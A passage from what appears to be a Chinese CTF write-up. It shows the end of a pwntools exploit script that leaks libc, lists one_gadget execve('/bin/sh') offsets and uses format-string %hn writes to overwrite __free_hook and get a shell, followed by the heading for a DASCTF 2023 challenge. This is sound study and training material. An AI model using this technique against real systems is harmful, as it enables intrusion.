 ```plain
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
free1 = free_hook//0x10000000000
'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

num = 72 #0x48
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
itr()
```

打远程时，29 位偏移地址，最后一位一定是 8，所以只需要爆破倒数第 2 位就行，所以有 1/16 的概率能够打出来

# 2023 年 DASCTF 2023 六月挑战赛｜二进制专项 fooooood (64 位)

## ida

[![](assets/1701612457-c6335bb3137617d233cfe0a334f78026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215811-fd98316e-11cd-1.png)
